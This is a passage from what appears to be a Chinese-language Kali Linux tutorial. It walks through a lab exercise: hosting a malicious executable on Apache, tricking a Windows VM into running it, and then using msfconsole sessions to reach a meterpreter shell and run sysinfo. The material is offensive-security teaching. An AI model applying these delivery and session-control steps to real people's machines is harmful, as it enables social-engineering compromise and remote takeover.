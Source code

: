     ```
    service apache2 start
    ```
    
4.  之后，将恶意文件复制到 web 服务器文件夹内。

    ```
    cp cute_dolphin.exe /var/www/html/
    ```
    
5.  假设我们使用社会工程并使我们的受害者相信这个文件是需要执行来获得一些好处的东西。在 Windows 客户端虚拟机内，访问` http://192.168.56.1/cute_dolphin.exe`。

6.  你会被询问下载还是运行这个文件，出于测试目的，选择`Run`（运行），再被询问时，再次选择`Run`。

7.  现在，在 Kali MSFCONSOLE 的终端中，你会看到建立好的连接：

    ![](img/9-3-1.jpg)

8.  我们在后台运行连接处理器（`-j -z`选项）。让我们检查我们的活动会话：

    ```
    sessions
    ```
    
    ![](img/9-3-2.jpg)
    
9.  如果我们打算和会话交互，可以使用`-i`选项，带有会话的编号：

    ```
    sessions -i 1 
    ```
    
0.  我们会看到 meterpreter 的提示符。现在，我们可以请求被入侵系统的信息。

    ```
    sysinfo
    ```
    
    ![](img/9-3-3.jpg)
    